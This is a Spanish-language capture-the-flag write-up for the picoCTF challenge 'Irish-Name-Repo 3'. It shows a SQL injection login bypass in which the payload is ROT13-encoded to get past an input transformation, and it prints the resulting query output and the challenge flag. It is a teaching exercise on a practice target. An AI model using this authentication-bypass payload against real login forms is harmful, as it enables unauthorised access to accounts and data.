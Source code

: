 # Irish-Name-Repo 3

## Objetivo 
Descripción:
Hay un sitio web seguro en `https://jupiter.challenges.picoctf.org/problem/40742/`( [enlace](https://jupiter.challenges.picoctf.org/problem/40742/) ) o http://jupiter.challenges.picoctf.org:40742. ¡Intenta ver si puedes iniciar sesión como administrador!

Sugerencias:
Parece que la contraseña está encriptada.

## Solución
``` shell
//Nos dirijimos al enlace ( [enlace](https://jupiter.challenges.picoctf.org/problem/40742/))

//nos vamos al login y vemos el codigo fuente

//aqui podemos ver su codigo y vemos que tiene un //valor oculto <input type="hidden" name="debug" value="0">

//cambiamos ese valor por 1 en el inspector

//solo tenemos el puro password
//intentamos poner la inyeccion ' or 1==1;
//'

//vemos que nos cambia el or por  be

password: ' or 1==1
SQL query: SELECT * FROM admin where password = '' be 1==1'

//vemos que la encriptasion esta en rot13
//lo que podemos hacer ahora es poner ' be 1==1
//'
//esto para que la encriptasion nos pase a or
//y asi obtenemos la bandera

password: ' be 1==1;
SQL query: SELECT * FROM admin where password = '' or 1==1;'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}

```

## Notas
La inyección SQL es una técnica de inyección de código que podría destruir su base de datos.

La inyección SQL es una de las técnicas de piratería web más comunes.

La inyección SQL es la colocación de código malicioso en declaraciones SQL, a través de la entrada de una página web.

## Referencias
[SQL Injection](https://www.w3schools.com/sql/sql_injection.asp)